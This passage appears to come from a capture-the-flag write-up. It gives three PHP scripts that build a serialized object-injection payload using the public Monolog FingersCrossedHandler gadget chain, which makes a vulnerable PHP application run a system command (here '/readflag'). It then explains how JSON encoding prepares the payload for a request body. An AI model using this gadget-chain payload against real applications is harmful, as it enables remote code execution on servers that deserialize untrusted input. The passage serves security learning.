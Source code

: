 I used the following script to generate the payload.

First I created a file www_frontend_vendor_autoload.php.
```
<?php
 
// Load the autoloader of the frontend
class www_frontend_vendor_autoload {
}
```
Then I created another file MonoLogRCE.php.
```
<?php
 
// This gadget is publicly available at:
// https://github.com/ambionics/phpggc/blob/master/gadgetchains/Monolog/RCE/7/gadgets.php
namespace Monolog\Handler {
    class FingersCrossedHandler
    {
        protected $passthruLevel = 0;
        protected $handler;
        protected $buffer;
        protected $processors;
 
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = $this;
        }
    }
}
```
And then the final exploit.php to make the serialized payload.
```
<?php
 
require "www_frontend_vendor_autoload.php";
require "MonoLogRCE.php";
 
$obj = new www_frontend_vendor_autoload;
 
$obj2 = new \Monolog\Handler\FingersCrossedHandler(
    ['pos', 'system'],
    ['/readflag', 'level' => 0]
);
 
var_dump(json_encode(serialize([$obj, $obj2])));
```
I used json_encode so that the final payload has double quotes " escaped because this payload needs to go in JSON body and double quotes can mess it up. Plus json_encode would also take care of the null bytes by converting them to \u0000.
